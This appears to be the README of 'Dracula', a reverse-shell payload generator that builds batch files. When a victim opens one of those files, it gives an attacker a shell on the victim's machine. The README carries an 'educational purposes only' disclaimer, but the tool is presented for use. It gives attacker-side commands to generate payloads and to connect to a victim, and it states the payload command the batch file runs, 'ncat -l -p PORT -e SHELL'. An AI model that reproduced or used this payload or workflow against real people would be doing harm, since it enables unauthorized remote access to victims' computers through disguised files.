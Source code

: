 **THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS FOR ANY ILLEGAL ACTIVITIES**

```
         _____                       _       
        |  __ \                     | |      
        | |  | |_.__ __._  ___ _   _| | __._ 
        | |  | |  __/ _  |/ __| | | | |/ _  |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__._|\___|\__._|_|\__._|

```

NOTE: ADD UPDATE README, make the dracula.py readable 

Dracula is a reverse shell generator built to generate payloads

<img src="Main/imgs/example.png">

# How it Works
uses commands to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Install nmap (on linux systems)

        sudo apt install nmap 

2. Run the dracula.py file and enter the required info
3. A batch file is generated 

### **Attacker's Side**
Generate payload:

1. Use payload type: 
```
Dracula >> set <payload_type> 
```
payload_type could be - 
 1. powershell_payload - for powershells or cmd
2. ncat_payload - for ncat users

```
Dracula >> -p <TARGET_PORT> -s <SHELL_TYPE> -o <OUTPUT_FILE_NAME>
```

Command to connect to the target machine:

```
Dracula >> -l -i <TARGET_IP> -p <TARGET_PORT>
```
replace the TARGET_IP with ip addr of client and TARGET_PORT with port used in the attack

**NOTE: the port used in above command must be same as the the one used in payload.**

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```
